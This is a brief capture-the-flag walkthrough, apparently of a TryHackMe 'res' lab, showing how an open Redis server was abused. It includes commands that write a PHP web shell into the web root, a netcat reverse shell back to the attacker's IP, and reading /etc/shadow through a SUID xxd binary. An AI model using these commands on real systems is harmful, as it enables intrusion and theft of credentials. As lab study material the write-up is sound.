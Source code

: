 # res 

> VOiD | Saturday 07 August 2021 07:10:09 PM IST

My IP : 10.17.6.109
Target IP : 10.10.152.227


The default Ubuntu document root is /var/www/html
```bash
redis-cli -h 10.10.152.227
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
set test "<?php echo system($_GET['cmd']);?>"
save
```

```bash

nc -e /bin/bash 10.17.6.109 4444
cat user.txt 
thm{red1s_rce_w1thout_credent1als}

-rwsr-xr-x 1 root root        19K Mar 18  2020 /usr/bin/xxd

LFILE=/etc/shadow
/usr/bin/xxd "$LFILE" | xxd -r

beautiful1
```